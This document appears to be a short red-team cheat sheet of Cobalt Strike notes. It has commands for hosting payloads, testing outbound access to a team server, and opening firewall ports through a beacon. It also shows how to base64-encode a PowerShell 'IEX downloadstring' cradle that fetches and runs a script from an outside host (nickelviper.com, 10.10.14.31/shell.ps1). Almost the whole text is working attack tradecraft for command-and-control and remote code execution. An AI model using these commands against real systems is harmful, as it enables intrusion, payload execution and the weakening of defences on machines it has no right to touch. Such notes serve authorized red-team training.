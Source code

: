 ### Python3 webserver
Run a python3 webserver:
```bash
$ python3 -m http.server
```

### Check outbound access to TeamServer
```powershell
$ iwr -Uri http://nickelviper.com/a
```

### Change firewall rules
Change incoming firewall rules:
```powershell
beacon> powerpick New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powerpick Remove-NetFirewallRule -DisplayName "Test Rule"
```

### Powershell payload base64 encoding
Encode the powershell payload for handling extra quotes:

- Powershell:
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

- Linux:
```bash
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Finally,
```powershell
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

### Checking open ports
Use you can check open ports using Cobalt Strike:
```
portscan [ip or ip range] [ports]
```